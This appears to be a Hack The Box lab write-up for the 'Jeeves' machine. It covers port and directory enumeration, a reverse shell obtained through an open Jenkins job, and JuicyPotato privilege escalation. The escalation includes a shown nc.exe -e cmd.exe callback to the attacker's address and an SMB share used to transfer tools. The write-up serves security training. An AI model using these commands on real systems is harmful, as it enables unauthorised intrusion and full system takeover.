






# Jeeves - Medium

Target IP: **10.129.228.112**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.228.112 -v```

Output shows http on port 80, port 135 for RPC, port 445 for SMB, and port 50000 running Jetty 9.4.z-SNAPSHOT.

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's start with port 80 by navigating to it.

We are greeted with this front page. It seems to take in user input and uses it to search things.



Typing anything in the form and submitting it loads this error message, which seems like it is taken directly from a query.



The message talks about a database, so the user input may be used to form a query and then executed.

However, trying to capture a request didn't get us anything. Submitting the form didn't seem to generate a request. Maybe the error html is hardcoded into the website no matter what the input is, and nothing is actually checked.

Performing directory enumeration on the website doesn't get us anything back, which leads me to think that this is likely a dead end.

Let's look at port 50000.

Directly navigating to the front page tells us that it doesn't exist, but Jetty is clearly running on the server.



Performing directory enumeration gets us a single hit.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ihpymibcm5]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.228.112:50000/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.228.112:50000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

askjeeves               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
:: Progress: [87651/87651] :: Job [1/1] :: 5714 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

Navigating to it, we finally see something we can work with. There is a Jenkins dashboard here. We can also see the version in the bottom right corner, 2.87.



It seems like we have the power to create jobs.



We can add a job that runs a reverse shell script on the server, and hopefully we can get a connection back.



After building the job, we get a shell as ```kohsuke```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ihpymibcm5]─[~]
└──╼ [★]$ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.228.112 49676
whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\shell> 
```

We can proceed to get the user flag from here.

## Root Flag

```SeImpersonatePrivilege``` is enabled for ```kohsuke```.

```
PS C:\users\kohsuke\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

We can see that this machine is running a relatively modern OS, Windows 10 Pro, with an x64 architecture.

```
PS C:\users\kohsuke\Desktop> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          10/16/2026, 9:46:16 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
```

Let's use JuicyPotato here.

We can host an smb server to transfer the executable.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ihpymibcm5]─[~]
└──╼ [★]$ sudo impacket-smbserver share -smb2support . -user test -password test 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

```
PS C:\users\kohsuke\Desktop> net use n: \\10.10.15.194\share /user:test test

The command completed successfully.

PS C:\users\kohsuke\Desktop> copy n:\JuicyPotato.exe .
```

We can also transfer a ```nc.exe```.

After running the exploit, we get a shell back as ```NT AUTHORITY\SYSTEM```.

```
PS C:\users\kohsuke\Desktop> .\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\users\kohsuke\Desktop\nc.exe 10.10.15.194 4444 -e cmd.exe" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ihpymibcm5]─[~]
└──╼ [★]$ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.228.112 49725
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

I expected to just be able to get the flag here but there is more work to do. ```hm.txt``` has an alternate data stream, which is ```root.txt```.

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,650,046,464 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,650,046,464 bytes free
```

We can read the alternative data stream with ```more```.

```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt

more < hm.txt:root.txt
***************************
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
